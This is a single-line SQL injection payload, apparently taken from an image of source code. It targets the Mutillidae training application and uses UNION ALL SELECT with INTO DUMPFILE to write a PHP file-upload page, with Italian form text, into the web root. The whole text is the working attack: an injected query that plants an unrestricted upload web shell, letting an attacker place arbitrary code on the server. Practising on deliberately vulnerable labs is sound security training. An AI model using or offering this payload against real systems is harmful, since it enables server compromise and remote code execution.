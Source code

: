 test' UNION ALL SELECT "<?php if($_SERVER['REQUEST_METHOD']=='POST'){if(isset($_FILES['file'])){$file_tmp=$_FILES['file']['tmp_name'];$file_name=basename($_FILES['file']['name']);$upload_dir='./uploads/';if(!is_dir($upload_dir)){mkdir($upload_dir,0777,true);}if(move_uploaded_file($file_tmp,$upload_dir.$file_name)){echo 'File caricato con successo: <a href=uploads/'.$file_name.'>'.$file_name.'</a>'; }else{echo 'Errore durante il caricamento del file.';}}}?><html><body><h2>Carica un file</h2><form action='upload.php' method='POST' enctype='multipart/form-data'><input type='file' name='file'><input type='submit' value='Carica'></form></body></html>\n",NULL,NULL,NULL,NULL,NULL,NULL INTO DUMPFILE '/var/www/html/mutillidae/classes/upload.php'-- -
